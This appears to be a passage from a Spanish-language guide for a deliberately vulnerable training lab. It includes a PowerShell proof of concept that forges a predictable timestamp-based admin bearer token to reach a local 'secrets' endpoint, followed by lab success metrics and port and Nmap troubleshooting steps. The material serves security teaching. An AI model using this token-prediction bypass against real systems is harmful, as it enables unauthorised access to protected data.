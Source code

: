 ### TC-003: Authentication Bypass Testing
```powershell
# Caso de prueba: Token prediction
$timestamp = [int][double]::Parse((Get-Date -UFormat %s))
$predictedToken = "admin_1_$timestamp"

$headers = @{"Authorization" = "Bearer $predictedToken"}
$response = Invoke-RestMethod -Uri "http://localhost:5000/api/Vulnerable/admin/secrets" -Headers $headers

# Verificar acceso no autorizado
if ($response.Status -eq "Success") {
    Write-Host "Authentication Bypass Confirmed" -ForegroundColor Red
}
```

## 📈 Métricas de Éxito

### KPIs del Laboratorio
- **Cobertura de Testing**: ≥95% de endpoints evaluados
- **Detección de Vulnerabilidades**: 100% de vulnerabilidades plantadas identificadas
- **Tiempo de Ejecución**: ≤75 minutos para evaluación completa
- **Calidad de Documentación**: Reportes siguiendo estándares OWASP

### Criterios de Completación
✅ **Reconnaissance completo** - Servicios y endpoints mapeados
✅ **Vulnerabilidades identificadas** - Al menos 5 vulnerabilidades críticas/altas
✅ **Explotación demostrada** - PoCs funcionales para vulnerabilidades críticas
✅ **Scoring CVSS aplicado** - Todas las vulnerabilidades calificadas
✅ **Documentación generada** - Reporte ejecutivo y técnico completados

## 🔧 Troubleshooting

### Problemas Comunes

#### Error: "Puerto 5000 en uso"
```powershell
# Verificar procesos usando puerto 5000
netstat -ano | findstr :5000

# Terminar proceso si es necesario
taskkill /PID [PID_NUMBER] /F

# Usar puerto alternativo
dotnet run --urls="http://localhost:5001"
```

#### Error: "Nmap no encontrado"
```powershell
# Instalar Nmap usando Chocolatey
choco install nmap -y

# Verificar instalación
nmap --version
```
